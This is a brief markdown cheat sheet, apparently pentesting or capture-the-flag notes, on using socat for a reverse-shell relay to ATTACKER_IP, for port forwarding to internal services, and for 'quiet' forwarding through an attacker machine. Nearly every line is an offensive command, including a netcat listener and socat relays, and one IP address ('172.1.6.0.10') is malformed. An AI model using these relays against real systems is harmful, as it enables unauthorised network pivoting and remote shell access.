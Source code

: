 ## Reverse shell relay

### Attacker: sudo nc -lvnp 443 

### Target: ./socat tcp-l:8000 tcp:ATTACKER_IP:443 &

## Port Forwarding

 - ./socat tcp-l:33060,fork,reuseaddr tcp:172.1.6.0.10:3306 &

 - socat TCP-LISTEN:1234,fork,reuseaddr tcp:127.0.0.1:8080 & (Run this on target machine, then browse to TARGET_IP:1234 from Kali machine to access the application)

#### Fork: Puts every connection into a new process

#### Reuseaddr: The port stays open after a connection is made to it.

## Port forwarding (Quiet)

### Attacker: socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &

### Target: ./socat tcp:ATTACKER_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &

## Close backgrounded socat

### 1: jobs

### kill %num of process

